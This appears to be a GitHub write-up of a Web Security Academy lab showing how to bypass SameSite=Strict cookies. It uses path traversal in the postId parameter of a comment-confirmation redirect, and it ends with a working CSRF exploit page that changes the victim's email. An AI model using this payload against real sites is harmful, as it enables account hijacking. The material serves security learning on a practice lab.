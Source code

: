 # Lab: SameSite Strict bypass via client-side redirect

Like some previous labs, we firstly use Burp to catch the request /my-account/change-email. The difference is this lab has another parameter ``` submit=1 ```, so we
have to consider it when create the payload.
<img width="700" height="491" alt="image" src="https://github.com/user-attachments/assets/add79401-6c03-496e-848d-e1108a68aa60" />

The suggestion is about **gadgets**, so we can think about some javascript. To find them, we're going to post a comment in a blog. We'll see this request below:

<img width="724" height="430" alt="image" src="https://github.com/user-attachments/assets/faa55839-7778-41e4-bb00-59e8b95223ab" />

There is a piece of code which we can control the ``` postId ``` parameter.
```
redirectOnConfirmation = (blogPath) => { setTimeout(() => { const url = new URL(window.location); const postId = url.searchParams.get("postId"); window.location = blogPath + '/' + postId; }, 3000); }
```

The response is a page confirming that we posted our comment and later redirects back to the blog. To leverage this, we'll consider using path traversal. We can create a request like:
``` GET /post/comment/confirmation?postId=1/../../my-account```
and we'll see that it works, as the account page will be displayed. Therefore, we can use it to redirect to /my-account/change-email with the required parameters (email and submit).

## **Exploit payload**
```
<html>
  <body>
	<script>
		document.location = 'https://0ace006504d1c73f800f5dd000710039.web-security-academy.net/post/comment/confirmation?postId=5/../../my-account/change-email?email=pwned-by-me%40gmail.com%26submit=1';
	</script>
  </body>
</html>
```

